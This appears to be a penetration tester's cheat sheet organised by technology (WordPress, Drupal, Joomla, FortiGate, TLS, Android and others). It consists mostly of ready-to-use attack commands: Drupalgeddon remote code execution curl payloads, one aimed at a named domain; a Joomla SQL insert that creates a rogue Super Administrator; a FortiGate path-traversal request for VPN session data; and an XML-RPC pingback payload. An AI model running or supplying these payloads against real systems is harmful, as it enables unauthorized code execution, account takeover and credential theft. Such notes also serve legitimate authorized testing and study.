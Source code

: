 # Techno Specific

## CMS

### Tools

```text
Nikto
CMSmap
WhatCMS
Wpseku
WPScan
droopescan
joomscan
```

### Wordpress

Find version

* into xml via website.com/rss
* Html source code
* CMSmap or WPScan

XMLrpc

List methods

```bash
POST /xmlrpc.php HTTP/1.1
Host: <target>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 95

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

if there is pingback, try :

```bash
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<ip_pingback>:<port></string></value>
</param><param><value><string>http://<ip_pingback>:<port>/toto</string>
</value></param></params>
</methodCall>
```

### Drupal

```bash
drupal , intruder from 0 to 500 on /node/$

/imce

Druppalgeddon 2/3
```

POC1 drupal 8

```bash
  curl -k -i 'https://filalapat.fr/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=uname -a'
```

POC2 drupal 8

```bash
curl -k -i 'https://filalapat.fr/user/register?element_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=exec&timezone[a][#lazy_builder][][]=touch+/tmp/2'
```

POC3 drupal 7

```bash
 curl -k -s 'http://localhost/drupal-7.55/?q=user/password&name\[%23post_render\]\[\]=passthru&name\[%23type\]=markup&name\[%23markup\]=uname+-a' \
    --data "form_id=user_pass&_triggering_element_name=name" | grep form_build_id
```

### Joomla

Joomla 1.5

```bash
user:md5_gen(1)MD5$SALT
```

*  [https://www.exploit-db.com/exploits/6234](https://www.exploit-db.com/exploits/6234)
* [http://www.passwordtool.hu/joomla-password-hash-generator-salt-key](http://www.passwordtool.hu/joomla-password-hash-generator-salt-key)

```bash
creer new users INSERT INTO jos_users (name, username, password, usertype, gid, params) VALUES ('toto', 'toto', 'fcba92f4dd6b902f8a66054b8327ae6b:F2sVBzlFOUl51D3HtRZ0tionaJQGQqB', 'Super Administrator', 25, ''); INSERT INTO jos_core_acl_aro VALUES (NULL, 'users', LAST_INSERT_ID(), 0, 'toto', 0); INSERT INTO jos_core_acl_groups_aro_map VALUES (25, '', LAST_INSERT_ID());
```

## Reactjs

Security Testers: Inject JavaScript and JSON wherever you can and see what happens. Developers: Don’t ever `useeval()` or `dangerouslySetInnerHTML`. Avoid parsing user-supplied JSON.

## Angularjs

check the bypassSecurityTrustX / innerHTML function

```bash
bypassSecurityTrustHtml
bypassSecurityTrustScript
bypassSecurityTrustStyle
bypassSecurityTrustUrl
bypassSecurityTrustResourceUrl
```

## ckfinder

```bash
ckfinder/ckfinder.html
```

## Git

```bash
https://github.com/internetwache/GitTools/tree/master/Dumper
https://github.com/arthaud/git-dumper
run script post-merge https://docs.gitlab.com/ee/administration/custom_hooks.html  .git/hooks
```

## Stormshield

* TCP PORT 1300

[https://documentation.stormshield.eu/SNS/v3/fr/Content/CLI\_Serverd\_Commands\_reference\_Guide\_v3/Introduction.htm](https://documentation.stormshield.eu/SNS/v3/fr/Content/CLI_Serverd_Commands_reference_Guide_v3/Introduction.htm)

Check default password : \(UpdatePasswd=1 if factory password, 0 if the password already have been changed\) CHPWD 101 code=00a01000 msg="Begin" format="section" \[Result\] UpdatePasswd=0

## Fortigate

```bash
/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```

## Dana

* [https://XXXX/dana-na/setup/psalinstall.cgi](https://XXXX/dana-na/setup/psalinstall.cgi)

## GPG decode

```bash
gpg --decrypt Test.zip.gpg > test.zip ( popup password )
```

## SSL / TLS

* [testssh.sh](https://github.com/drwetter/testssl.sh)

check Heartbleed

```bash
cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done
```

Openssl

```bash
openssl s_client -cipher BEAST -connect <target>:443
openssl s_client -connect <target>:443 -ssl3

# Expiration date
openssl s_client -connect <target>:443 | openssl x509 -noout -dates
```

check lucky13

```bash
openssl s_client -cipher DES-CBC3-SHA -connect xx.fr:443
```

## SSH 

check if 4096 key

```bash
ssh-keygen -l -f key.pub
```

## `Android`

`Apktool`

```bash
apktool d app_name.apk
```

Extract sensitive info

```bash
grep -EHirn "accesskey|admin|aes|api_key|apikey|checkClientTrusted|crypt|http:|https:|password|pinning|secret|SHA256|SharedPreferences|superuser|token|X509TrustManager|insert into" APKfolder/
```



